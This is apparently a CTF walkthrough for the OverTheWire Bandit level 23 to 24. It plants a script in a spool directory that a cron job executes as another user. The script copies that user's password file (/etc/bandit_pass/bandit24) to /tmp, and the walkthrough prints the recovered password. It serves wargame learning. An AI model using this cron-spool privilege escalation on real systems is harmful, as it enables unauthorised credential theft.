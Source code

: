 ```
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

Here, we are dealing with a much more complex script. Its functionality is summarized in the echo message: "Executing and deleting all scripts in `/var/spool/$myname`". Because this cron job is being run as the user `bandit24`, this means that it is executing and then deleting all scripts in `/var/spool/bandit24/`.

We're going to make a very simple script that writes the contents of `/etc/bandit_pass/bandit24` to a arbitrarily named file in `/tmp`, from which we can then read and get the contents.

```
bandit23@bandit:~$ vim /var/spool/bandit24/s.kat.sh; chmod +x /var/spool/bandit24/s.kat.sh
```

In case you're wondering what `chmod +x` does, it makes our script executable (change mode, add execution).

```sh
#!/bin/bash      

mkdir /tmp/s.kat./
cat /etc/bandit_pass/bandit24 > /tmp/s.kat./password
```

Now we just wait a bit for the system to get around to executing our script when it performs the cron job. After waiting for a bit, we can `cat` the password.

```
bandit23@bandit:~$ cat /tmp/s.kat./password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
